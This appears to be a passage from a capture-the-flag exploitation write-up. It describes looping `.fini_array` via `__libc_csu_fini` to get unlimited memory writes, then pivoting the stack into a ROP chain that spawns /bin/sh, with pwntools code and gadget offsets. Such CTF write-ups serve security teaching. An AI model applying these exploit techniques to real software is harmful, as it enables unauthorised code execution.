 The function responsible of calling the functions in the `.fini_array` is `__libc_csu_fini`. 
The idea is the following:
1. Overwrite the first entry to the `.fini_array` with `do_overwrite`
2. when the program ends, we will get an additional write as the first function from `.fini_array` is called. We will use that write primitive to overwrite the second entry in `.fini_array` with `do_overwrite` 
3. Now the second entry in `.fini_array` will be called. At the moment both entries of `.fini_array` give us writes. we will use our current write to write `__libc_csu_fini` to the return address of `__libc_csu_fini` so that we can trigger the functions in the fini array again.

From now on we can use the first write to do whatever we want and the second write to initiate the `.fini_array` loop again. We can do this as long as we want to get as many writes as we want. The only catch is that since we are clobbering the stack, the return address of `__libc_csu_fini` increases by 8 every time.  
```python
def write(addr, val, io=io):
    io.send(str(addr))
    io.send(p64(val))
    io.clean()

write(exe.sym['do_leak']+0x2a559b+8, exe.sym["do_overwrite"])
print(hex(exe.sym['do_leak']+0x2a559b))
write(exe.sym['do_leak']+0x2a559b, exe.sym["do_overwrite"])
csiRet = stack_leak-72 
write(csiRet,exe.sym['__libc_csu_fini'])

csiRet += 8 

def writeLoop(addr, val):
    global csiRet
    write(addr, val)
    write(csiRet, exe.sym['__libc_csu_fini'])
    csiRet += 8
```

Now that we have infinite writes we want to transform this into a shell. We will do a regular ropchain.  
```
pop rdi ptr to "/bin/sh";   ret
pop rsi 0 ; ret
pop rdx 0 ; ret
pop rax 0x59 ; ret
syscall
```
However, we dont have direct control of the stack. We can write our ropchain to an address that will not get clobbered and then use a stack pivot gadget to move rsp into our ropchain.  
```python
# 0x000000000001032b: add rsp, 0xd8; ret;
stackPivot = exe.address + 0x000000000001032b
```
I found that stack pivot gadget using `ropper`, which indicates where to write our ropchain.  
The rest is normal rop stuff. The exact offsets I found playing in GDB.  

```python
# 0x000000000001032b: add rsp, 0xd8; ret;
stackPivot = exe.address + 0x000000000001032b
# 0x00000000000084fa: pop rdi; ret;
popRdi = exe.address + 0x084fa
#0x000000000000d9f2: pop rsi; ret;
popRsi = exe.address + 0x000000000000d9f2
# 0x00000000000484c5: pop rdx; ret;
popRdx = exe.address + 0x00000000000484c5
# 0x00000000000460ac: pop rax; ret;
popRax = exe.address + 0x00000000000460ac
# 0x000000000000917c: syscall;
syscall = exe.address + 0x917c 
```